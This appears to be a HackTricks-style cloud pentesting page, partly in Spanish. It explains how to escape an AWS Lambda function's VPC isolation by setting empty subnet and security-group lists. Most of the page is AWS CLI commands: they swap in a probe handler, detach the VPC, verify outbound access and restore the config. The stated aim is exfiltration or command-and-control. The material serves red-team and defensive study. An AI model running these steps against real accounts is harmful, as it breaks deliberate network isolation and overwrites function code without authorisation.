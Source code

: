# AWS Lambda – VPC Egress Bypass by Detaching VpcConfig

{{#include ../../../../banners/hacktricks-training.md}}

Forzar una función Lambda fuera de una VPC restringida actualizando su configuración con un VpcConfig vacío (SubnetIds=[], SecurityGroupIds=[]). La función entonces se ejecutará en el plano de red gestionado por Lambda, recuperando el acceso a internet saliente y bypassing egress controls aplicados por subredes privadas de la VPC sin NAT.

## Abusing it

- Pre-reqs: lambda:UpdateFunctionConfiguration on the target function (and lambda:InvokeFunction to validate), plus permissions to update code/handler if changing them.
- Assumptions: The function is currently configured with VpcConfig pointing to private subnets without NAT (so outbound internet is blocked).
- Region: us-east-1

### Steps

0) Prepare a minimal handler that proves outbound HTTP works

cat > net.py <<'PY'
import urllib.request, json

def lambda_handler(event, context):
try:
ip = urllib.request.urlopen('https://checkip.amazonaws.com', timeout=3).read().decode().strip()
return {"egress": True, "ip": ip}
except Exception as e:
return {"egress": False, "err": str(e)}
PY
zip net.zip net.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://net.zip --region $REGION || true
aws lambda update-function-configuration --function-name $TARGET_FN --handler net.lambda_handler --region $REGION || true

1) Record current VPC config (to restore later if needed)

aws lambda get-function-configuration --function-name $TARGET_FN --query 'VpcConfig' --region $REGION > /tmp/orig-vpc.json
cat /tmp/orig-vpc.json

2) Detach the VPC by setting empty lists

aws lambda update-function-configuration \
--function-name $TARGET_FN \
--vpc-config SubnetIds=[],SecurityGroupIds=[] \
--region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done

3) Invoke and verify outbound access

aws lambda invoke --function-name $TARGET_FN /tmp/net-out.json --region $REGION >/dev/null
cat /tmp/net-out.json

(Optional) Restore original VPC config

if jq -e '.SubnetIds | length > 0' /tmp/orig-vpc.json >/dev/null; then
SUBS=$(jq -r '.SubnetIds | join(",")' /tmp/orig-vpc.json); SGS=$(jq -r '.SecurityGroupIds | join(",")' /tmp/orig-vpc.json)
aws lambda update-function-configuration --function-name $TARGET_FN --vpc-config SubnetIds=[$SUBS],SecurityGroupIds=[$SGS] --region $REGION
fi

### Impact
- Regains unrestricted outbound internet from the function, enabling data exfiltration or C2 from workloads that were intentionally isolated in private subnets without NAT.

### Example output (after detaching VpcConfig)

{"egress": true, "ip": "34.x.x.x"}

### Cleanup
- If you created any temporary code/handler changes, restore them.
- Optionally restore the original VpcConfig saved in /tmp/orig-vpc.json as shown above.
{{#include ../../../../banners/hacktricks-training.md}}
